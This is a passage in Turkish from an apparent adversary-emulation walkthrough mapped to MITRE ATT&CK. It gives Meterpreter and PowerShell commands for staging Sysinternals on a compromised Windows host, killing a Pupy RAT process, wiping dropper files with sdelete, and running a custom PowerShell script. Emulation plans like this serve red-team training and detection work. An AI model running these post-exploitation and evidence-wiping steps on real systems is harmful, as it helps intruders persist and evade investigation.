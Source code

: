 Saldırgan Metasploit içinden SysinternalsSuite.zip dosyasını hedefe iletir ve açar:

[msf] > `sessions`

[msf] > `sessions -i 1`

[meterpreter\*] >

```powershell
upload SysinternalsSuite.zip "C:\\Users\\username\\Downloads\\SysinternalsSuite.zip"
```

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```powershell
Expand-Archive -LiteralPath "$env:USERPROFILE\Downloads\SysinternalsSuite.zip" -DestinationPath "$env:USERPROFILE\Downloads\"
```

[meterpreter (PowerShell)\*] >

```powershell
if (-Not (Test-Path -Path "C:\Program Files\SysinternalsSuite")) { Move-Item -Path $env:USERPROFILE\Downloads\SysinternalsSuite -Destination "C:\Program Files\SysinternalsSuite" }
```

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite\"`

#### 4.2. Indicator Removal on Host: File Deletion ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/))

İlk erişim ardından çalıştırdığı Pupy RAT process'ini sonlandırır:

[meterpreter (PowerShell)\*] > `Get-Process`

[meterpreter (PowerShell)\*] > `Stop-Process -Id <rcs.3aka3.doc PID> -Force`

Artık Pupy kapatılabilir. Metasploit üzerinden:

[meterpreter (PowerShell)\*] > `Gci $env:userprofile\Desktop`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Desktop\?rcs.3aka.doc"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:APPDATA\Draft.Zip"`

[meterpreter (PowerShell)\*] > `.\sdelete64.exe /accepteula "$env:USERPROFILE\Downloads\SysinternalsSuite.zip"`

Özel yapım PS script'ini dahil eder ve çalıştırır:

[meterpreter (PowerShell)\*] > `Move-Item .\readme.txt readme.ps1`

[meterpreter (PowerShell)\*] > `. .\readme.ps1`

#### 4.3. Discovery ([T1016](https://attack.mitre.org/techniques/T1016/), [T1033](https://attack.mitre.org/techniques/T1033/), [T1063](https://attack.mitre.org/versions/v6/techniques/T1063/) / [T1518.001](https://attack.mitre.org/techniques/T1518/001/), [T1069](https://attack.mitre.org/techniques/T1069/), [T1082](https://attack.mitre.org/techniques/T1082/), [T1083](https://attack.mitre.org/techniques/T1083/))
